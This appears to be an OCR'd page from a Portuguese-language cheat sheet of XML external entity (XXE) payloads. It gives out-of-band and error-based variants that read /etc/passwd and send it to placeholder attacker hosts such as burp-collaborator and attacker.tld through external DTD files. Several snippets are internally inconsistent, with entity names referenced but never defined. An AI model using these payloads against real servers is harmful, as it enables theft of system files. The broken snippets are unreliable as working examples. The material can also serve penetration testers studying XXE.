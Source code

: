 ### XXE Out-of-Band 4
```
## Payload na requisição
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

## Payload no arquivo DTD
## DTD file

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; test SYSTEM 'http://burp-collaborator/?a=%file;'>">
%eval;
%test;
```

### XXE Out-of-Band 5 - Error Message
```
# Exemplo 1
# DTD file

<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % notvalid "<!ENTITY &#x25; test SYSTEM 'file:///invalid/%file;'>">
%notvalid;
%test;

# Payload na requisição 
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
```
# Exemplo 2 - Java
# Payload na requisição 

<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/passwd">
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd">
%sp;
%param3;
%exfil;
]>
<r></r>

# Arquivo DTD

<!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///nothere/%payload;">'> %param1; %external;
```
```
# Exemplo 3 
# Payload na requisição 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>

# Arquivo DTD 

<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>">
(Se for necessário fazer o encode do símbolo %, use &#x25;)
```
